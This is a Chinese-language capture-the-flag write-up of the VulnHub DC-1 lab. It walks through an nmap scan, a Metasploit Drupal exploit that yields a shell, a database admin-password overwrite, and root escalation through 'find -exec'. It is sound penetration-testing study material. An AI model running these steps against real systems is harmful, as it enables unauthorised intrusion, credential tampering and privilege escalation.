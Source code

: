 
## DC-1
**Author:xingg051**

靶机下载: [vulnhub-DC1](https://www.vulnhub.com/entry/dc-1,292/)

```bash
nmap -sT -sV -p- -T5 x.x.x.x
```

发现22和80端口  
浏览器访问80端口，发现Drupal框架   
搜索漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101204156582.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)
尝试利用

```bash
use 4
set rhost x.x.x.x
run 
```

然后就进入了meterpreter
再输入`python -c "import pty;pty.spawn('/bin/bash');"`

就能拿到一个www的shell

![](https://img-blog.csdnimg.cn/2020010120470786.png)

进去之后查看文件发现数据库密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101204754970.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)

进入数据库发现了users表的admin字段 密码是加密的!
![](https://img-blog.csdnimg.cn/20200101204840438.png)

drupal有自己的密码生成方式
直接利用网上现成的123456的hash值
在数据库里更新密码字段

```bash
update 表名 set 字段名 = 新内容 where 限定内容
```

再到web页面就能admin登录了
在后台看到了作者给出的提示：-exec
我们继续提权，先上传LinEnum

```bash
upload  LinEnum.sh  ./
chmod +x //增加执行权限
```

运行发现

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101205332585.png)

ind命令是root权限的
那就直接查看root家目录吧

```bash
find /root
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020010120540935.png)

```bash
find /root/thefinalflag.txt -exec cat {} \;    
```

查找文件 -exec 执行后面的命令 {}\;

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101205531711.png)

提权成功
	
DC1是我做的第一台靶机，还是在看着师傅们的wp下做的，到现在做到了第十台，也算是摸了个入门，回头看当时的记录，明显感觉是在瞎头乱撞，稍微重新整理了一下，截图没法补了，就补了一点过程，师傅们海涵。
欢迎师傅们指点

邮箱:xingg051@163.com
